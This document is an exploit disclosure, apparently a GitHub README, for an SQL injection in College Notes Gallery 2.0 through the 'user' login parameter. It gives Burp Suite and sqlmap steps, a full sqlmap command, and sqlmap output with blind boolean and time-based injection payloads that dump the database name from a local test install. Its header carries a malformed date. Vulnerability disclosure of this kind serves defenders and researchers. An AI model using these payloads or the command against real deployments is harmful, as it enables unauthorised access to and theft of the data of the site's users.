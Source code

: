 # College_Notes_Gallery-SQL_Injection
+ **Exploit Title:** College_Notes_Gallery-SQL_Injection
+ **Date:** 2023-23-12
+ **Exploit Author:** Hamdi Sevbens
+ **Vendor Homepage:** https://code-projects.org/college-notes-gallery-in-php-with-source-code/
+ **Software Link:** https://download-media.code-projects.org/2020/02/COLLEGE_NOTES_GALLERY_IN_PHP_WITH_SOURCE_CODE.zip
+ **Version:** 2.0
+ **Tested on:** Kali Linux + PHP 8.2.12, Apache 2.4.58
+ **CVE:** CVE-

## References: 

## Description:
College Notes Gallery 2.0 allows SQL Injection via parameter 'user' in "/notes/login.php".
Exploiting this issue could allow an attacker to compromise the application, access or modify data,  or exploit latest vulnerabilities in the underlying database.

## Proof of Concept:
+ Go to the login page: "http://localhost/notes/login.php"
+ Fill the username and password then click 'login' button.
+ Intercept the request via Burp Suite and send to Repeater.
+ Copy and paste the request to a "r.txt" file.
+ Use sqlmap to exploit. In sqlmap, use 'user' parameter to dump the database. 
```
sqlmap -r r.txt -p user --risk 3 --level 5 --threads 1 --random-agent tamper=randomcase --dbms mysql --batch --current-db
```

```
---
Parameter: user (POST)
    Type: boolean-based blind
    Title: OR boolean-based blind - WHERE or HAVING clause (NOT)
    Payload: user=test' OR NOT 7621=7621-- SdON&pass=test&login=login

    Type: time-based blind
    Title: MySQL >= 5.0.12 AND time-based blind (query SLEEP)
    Payload: user=test' AND (SELECT 6983 FROM (SELECT(SLEEP(5)))KqgU)-- Reeu&pass=test&login=login
---
[16:16:28] [INFO] testing MySQL
[16:16:28] [INFO] confirming MySQL
[16:16:28] [INFO] the back-end DBMS is MySQL
web application technology: PHP 8.2.12, Apache 2.4.58
back-end DBMS: MySQL >= 5.0.0 (MariaDB fork)
[16:16:28] [INFO] fetching current database
[16:16:28] [INFO] resumed: notes
current database: 'notes'
```

+ current database: `notes`
![1](https://github.com/h4md153v63n/CVEs/assets/5091265/16752d90-2918-4777-884a-131dcd93b06e)
